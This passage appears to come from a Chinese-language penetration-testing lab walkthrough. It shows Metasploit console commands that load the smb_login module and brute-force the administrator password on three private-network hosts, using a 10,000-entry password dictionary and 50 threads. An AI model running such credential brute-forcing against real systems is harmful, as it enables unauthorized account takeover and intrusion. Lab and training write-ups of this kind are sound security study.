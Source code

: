 ```
search smb_login
use 0
show options
```

![image-20250406224414564](./assets/image-20250406224414564.png)

其中要设置目标主机

密码字典

线程

用户名

并取消输出结果

```
set rhost 192.168.93.10 192.168.93.20 192.168.93.30
set pass_file /home/ra1n3/top10000.txt
set smbuser administrator
set threads 50
set verbose no
run
```



![image-20250406230109051](./assets/image-20250406230109051.png)
